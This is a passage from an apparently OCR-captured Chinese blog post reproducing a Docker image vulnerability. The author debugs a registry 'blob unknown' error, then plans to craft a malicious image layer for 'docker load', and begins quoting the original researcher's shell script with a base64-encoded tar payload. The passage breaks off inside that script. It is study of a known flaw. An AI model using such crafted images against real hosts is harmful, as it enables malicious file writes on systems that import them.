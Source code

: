 ```json
      "code": "UNKNOWN",
      "message": "unknown error",
      "detail": {}
    },
    {
      "code": "MANIFEST_BLOB_UNKNOWN",
      "message": "blob unknown to registry",
      "detail": "sha256:cb1aafb7147372cc64faa070b94a893b8cd2e3de3a0e8001dc225c627d991c58"
    }
  ]
}
```

其中有 `MANIFEST_BLOB_UNKNOWN` 错误，根据[官方资料](https://docs.docker.com/registry/spec/api/#errors-2)，得知该错误是找不到 blob，也就是找不到对应的 layer 信息，导致私有仓库根据 `config.json` 和 `manifest.json` 构建镜像时失败了。



大概知道原因之后，但无法继续了。首先无法确定到底是不是上面分析的错误原因，因为从上面的报错信息来看，有很多个错误信息，找不到 blob 只是其中的一个。其次如果真的是找不到 blob 的缘故，那应该把 `manifest.json` 信息中的两个 blob 传上去就行了，但是这两个 blob 太大了，需要用官方的分块传输 API，使用起来太费劲了。



因为上述原因，在这里卡了很久，在这期间学习了上面的 Docker 镜像存储的知识。学得差不多的时候，回过头一想，是不是可以不用这种方式实现漏洞攻击呢？于是详细猜测了下漏洞原理，作者复现漏洞使用的是 `docker pull`，`pull` 之后即可看到恶意文件被写入了系统，这里思考一下为什么能达到这个效果，推测在使用 `docker pull` 命令时会将镜像存储在本地（经过后面的学习验证的确是这样），然后存储的时候未处理好导致了漏洞的产生。猜到这里之后，再想到 `docker load` 也可以导入镜像，那是不是用 `docker load` 也能实现这个漏洞效果呢？说干就干，`docker load` 需要一个 `tar` 的镜像，那就可以构造一个恶意镜像，然后 `docker load` 这个镜像，来验证猜想。

这个镜像该如何构造呢，其实可以参照漏洞作者的做法。从漏洞作者的脚本上来看，其实他也是使用的是 `NanoServer` 镜像，然后再原有的两个 layer 上多添加了一层，就是他自己构造的恶意文件那一层，所以我这里也是模拟的他的做法，再原有基础上再添加一层，把恶意文件添加成新的一层，然后更改相应的配置信息即可。



首先将漏洞作者脚本里生成的恶意文件 tar 包给导出来，脚本如下：

```shell
#!/bin/bash

write_base_layer() {
  # Tar containing hive files and dummy Dockerfile
  base64 -d <<'EOF' | gunzip -c
H4sIANXIjFoAA+3d3W7bdBjHcbdaQYoYTGy89MyHcNL43elBQU6bqhUr6QtjVEJDJnOyqC9Bjrt2
HO0SuAkkBBfADXDCMTfAEadcQrFju9ip2yWd46zx9yM1cfz4n3hOn7/n6Kdm2z7bcOynjttfkqrr
3UOnL+ROCl11LymaKsiqf6uokiTrgiQrmqkL4ln+u3LZSd+zXX9XXvd5hv9xt4RWEx9u1q3d1Y3N
rxtLLdexvW7v2OseOSuyLi8rkqLK5pKumrWa4b87FUUXt/Yeb3651ny8t9T2f19sz3NXZKOiSqJ9
9TC/2rq2enR1ddqHaKZNqOVTJEm7tv+D5XT/S4qkCqI+4f0aKHn/D97/6nbyLLDWax04btDbOb3G
q+Z/XVUS77/sv/+arsnM/0VQR5j/1StmfVWpKLKaqLj2af/pirVjNTr1Hct3YMXWBrd1qxM+rO8N
7jqDxzuNaKNH0dq6v3Yn2rBjVU8bbctqrEYbrW8Gt6tW+Nh/nahej+uN6DXWrdWqtbuVfP6H0cK+
9cWBv5OX9udZ8LiiXDqVqdknMMOUzWU5OCteOoGpt+S0FfZ/7i2f4s/n18//ujHU/4qi+/1fSBOV
vP/Xd5tb4lG35fb6vbZXPbaPe33Hfe64dyt3K6vN7X3x/98NsTrtvUXeUmf+je7zN+T6T5c5/xeC
679ym1DLp9zk+k82uf4rwuD9H7r+c9r2yaH3yP9/wHdrzqFnv+5rjD//G5LG53+FGHH+12TTqBlX
zv/+lWDm/H8xLHP+T1Yvz/8X1WkfopkW9n/uLZ9y/fWfkjH/q3rQ/1z/TZ7rdNpz/v1cYl2w/FZi
WQwW7qW3mZT5V9Sb7d1OEftRBov39bmff/vwyb+//sUhBQAAAIAZ9+z77vFg4V52/Zfz8/PjA1H4
84+3L64T/VXncf08Ei+fDdWT7vg/u83mV8HyN/42/QNBCLYPfoIn/mlwf+flD/79y2jMAyH4TODb
wVhh/oHwufCeMBderS68P1j3cbgu/OBgQfRvxPlw20V/ZLRteJtet/BOUBgaN/z473evPXwAAAAA
ANwKGfmvPfso3xDI+PkvTdUU8l9FGDX/pZh6TRk//xUPy85/JaoZ+a+4Ou1DNNPC/s+95VPGz38p
UtD/5L8mj/xXeQX5r/nfPyL/BQAAAAAlQP4rPY78FwAAAABgFmXlv5zWidv1XuSWCBk//6VrKn//
sRCj5r9UU5PM8fNf8bDs/FeimpH/iqvTPkQzLcp/5d3yKTf4+1+yyt9/LgT5r/IK8l//7C+S/wIA
AACAEiD/lR5H/gsAAAAAMIuy8l+9tndqu85U81+yRv6rCKN+/69RW9aWx85/XQzL/v7fRDXj+3/j
6rQP0UyL8l95t3zKTfJfQf+T/5o88l/lFeS/Pv3sPvkvAAAAACgB8l/pceS/AAAAAACzKCv/9aLv
OXl+H9wN8l+yZJD/KsKo+S+zVjPU8fNf8bDs/FeimpH/iqvTPkQzLcp/5d3yKTf4/kcj6H/yX5NH
/qu8gvzXJz9+QP4LAAAAAEqA/Fd6HPkvAAAAAAAAAAAAAAAAAAAAAG+q/wA9MZkjAPAAAA==
EOF
}

write_layer() {
  write_base_layer > ./demo.tar

```